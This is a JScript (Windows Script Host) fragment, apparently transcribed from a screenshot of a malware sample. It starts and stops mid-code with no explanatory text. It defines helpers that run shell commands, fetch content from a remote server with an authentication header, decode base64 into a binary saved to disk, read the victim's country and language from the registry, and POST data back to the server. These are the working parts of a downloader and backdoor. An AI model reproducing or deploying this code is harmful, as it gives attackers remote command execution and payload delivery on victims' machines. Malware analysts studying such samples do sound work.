 ```js
    for (var runAsAdmin = 0; runAsAdmin < dlToFile; runAsAdmin++) {
        getPathFromGuidWow += getPathFromGuid.charAt(Math.floor(Math.random() * getPathFromGuid.length))
    };
    return getPathFromGuidWow
}

function runAsUser(runAsAdmin) {
    try {
        var dlToFile = WScript.CreateObject("WScript.Shell");
        dlToFile.Run(runAsAdmin)
    } catch (e) {}
}

function dlToText(getPathFromGuid, runAsAdmin) {
    try {
        var dlToFile = WScript.CreateObject("MSXML2.XMLHTTP");
        dlToFile.Open("GET", getPathFromGuid + "&=" + Math.floor((Math.random() * 999999999) + 1), false);
        dlToFile.SetRequestHeader("x-auth", runAsAdmin);
        dlToFile.Send();
        if (dlToFile.Status == 200) {
            return dlToFile.responseText
        }
    } catch (e) {};
    return false
}

function base64ToBinary(runAsAdmin, fileExists) {
    var getPathFromGuid = new ActiveXObject("Microsoft.XMLDOM");
    var getPathFromGuidWow = getPathFromGuid.createElement("tmp");
    getPathFromGuidWow.dataType = "bin.base64";
    getPathFromGuidWow.text = runAsAdmin;
    var dlToFile = getPathFromGuidWow.nodeTypedValue;
    var folderExists = new ActiveXObject("ADODB.Stream");
    folderExists.Open();
    folderExists.Type = 1;
    folderExists.Write(dlToFile);
    folderExists.SaveToFile(fileExists, 2)
}

function getCountryName() {
    var dlToFile = WScript.CreateObject("WScript.Shell");
    var runAsAdmin = dlToFile.RegRead("HKCU\\Control Panel\\International\\sCountry");
    return runAsAdmin
}

function getLanguage() {
    var dlToFile = WScript.CreateObject("WScript.Shell");
    var runAsAdmin = dlToFile.RegRead("HKCU\\Control Panel\\International\\sLanguage");
    return runAsAdmin
}

function dataPost(getPathFromGuidWow, runAsAdmin, getPathFromGuid) {
    try {
        var dlToFile = WScript.CreateObject("MSXML2.XMLHTTP");
        dlToFile.Open("POST", getPathFromGuidWow, false);
        dlToFile.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        dlToFile.SetRequestHeader("x-auth", runAsAdmin);
        dlToFile.Send(getPathFromGuid);
        if (dlToFile.Status == 200) {
            return dlToFile.responseText
        }
```